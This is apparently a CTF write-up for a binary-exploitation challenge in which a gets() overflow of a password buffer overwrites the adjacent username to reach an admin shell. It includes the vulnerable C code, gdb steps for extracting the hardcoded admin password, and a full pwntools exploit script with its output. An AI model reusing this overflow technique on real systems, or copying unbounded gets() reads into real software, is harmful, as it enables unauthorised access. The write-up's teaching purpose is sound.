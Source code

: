# Secure Email System v1.337 – CTF Writeup

**Category:** Pwn / Binary Exploitation  
**Difficulty:** Easy–Medium  

---

## Challenge Summary

We’re given a Linux ELF binary `email_server`.  
It implements a fake email system with two hardcoded logins:

```c
const char* logins[][2] = {
    {"admin", "🇦🇩🇲🇮🇳"},
    {"guest", "guest"},
};
```

The `admin` account opens a shell, but login is “disabled”:

```c
if (strcmp(username, "admin") == 0) {
    printf("-> Admin login is disabled. Access denied.\n");
    exit(0);
}
```

The `guest` account just prints a fake email and exits.  
Passwords are compared using `strcmp(password, logins[i][1])`.

---

## Vulnerability Analysis

The relevant code:

```c
char password[32];
char username[32];

gets(password);
```

- `gets()` reads input into `password` **without bounds checking**.
- If we input more than 32 bytes, we overwrite `username`.
- The program checks for `"admin"` **before** reading the password.
- But after reading the password, it compares `username` again before calling `open_admin_session()`.

**Key idea:**
1. Start as `"guest"` so we pass the first check.
2. Overflow `password` to overwrite `username` with `"admin"`.
3. Set `password` to match the admin’s real password.

---

## Finding the Overflow Offset

We used pwntools’ `cyclic` pattern to find how many bytes from the start of `password` until `username` begins.

```python
from pwn import *
print(cyclic(64))
```

Run:

```bash
( printf "guest\n"; python3 pattern.py; echo; ) | ./email_server
```

Then find the offset:

```python
from pwn import *
print(cyclic_find('iaaa'))
```

Result: **32 bytes**.

---

## Extracting the Admin Password

We dumped the UTF-8 bytes from the binary using `gdb`:

```bash
nm -C ./email_server | grep logins
# logins is at 0x4020
```

```gdb
x/4gx 0x4020
# Second pointer (0x2447) is the admin password
x/32bx 0x2447
```

We get:

```
0xf0 0x9f 0x87 0xa6 0xf0 0x9f 0x87 0xa9
0xf0 0x9f 0x87 0xb2 0xf0 0x9f 0x87 0xae
0xf0 0x9f 0x87 0xb3 0x00 ...
```

This is `"🇦🇩🇲🇮🇳"`.

---

## Exploit

We craft:

```
[ password bytes + '\x00' + padding up to 32 bytes ]
[ "admin\x00" ]
```

This ensures:
- `password` matches the admin password.
- `username` becomes `"admin"` after overflow.

```python
#!/usr/bin/env python3
from pwn import *

# Local: p = process('./email_server')
p = remote("challenge.host", 31337)

K = 32
admin_pass = bytes([
    0xf0,0x9f,0x87,0xa6,
    0xf0,0x9f,0x87,0xa9,
    0xf0,0x9f,0x87,0xb2,
    0xf0,0x9f,0x87,0xae,
    0xf0,0x9f,0x87,0xb3
])

payload = bytearray()
payload += admin_pass
payload += b'\x00'
payload += b'A' * (K - len(payload))
payload += b'admin\x00'

p.recvuntil(b"Enter your username: ")
p.sendline(b"guest")
p.recvuntil(b"Enter your password: ")
p.send(payload + b'\n')

p.interactive()
```

---

## Output

```
[+] Opening connection to challenge.host on port 31337: Done
-> Password correct. Access granted.
-> Admin login successful. Opening shell...
$ whoami
$ cat /flag.txt
DUCTF{...flag_here...}
```

---
